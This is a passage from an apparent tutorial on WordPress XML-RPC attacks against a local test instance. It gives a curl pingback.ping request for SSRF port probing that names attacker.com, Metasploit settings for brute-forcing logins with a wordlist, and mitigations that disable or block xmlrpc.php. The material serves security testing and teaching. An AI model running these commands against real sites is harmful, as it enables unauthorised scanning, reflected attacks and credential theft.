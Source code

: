 This causes WordPress to attack `victim.com`.

---

### **3️) SSRF via XML-RPC**
Test internal services:

```sh
curl -X POST http://localhost:8080/xmlrpc.php -d '<methodCall><methodName>pingback.ping</methodName><params><param><value>http://127.0.0.1:22</value></param><param><value>http://attacker.com</value></param></params></methodCall>'
```

If you get an error, the service exists.

---

### **4️) Metasploit - XML-RPC Exploits**
Launch **Metasploit**:

```sh
msfconsole
```

Use **WordPress XML-RPC login scanner**:

```sh
use auxiliary/scanner/http/wordpress_xmlrpc_login
set RHOSTS localhost
set RPORT 8080
set USERNAME admin
set PASSWORD_FILE /usr/share/wordlists/rockyou.txt
run
```

---

## ** Mitigations**
### **Disable XML-RPC**
In `functions.php`:

```php
add_filter('xmlrpc_enabled', '__return_false');
```

### **Block XML-RPC with Apache**
Edit `.htaccess`:

```apache
<Files xmlrpc.php>
    Order Deny,Allow
    Deny from all
</Files>
```
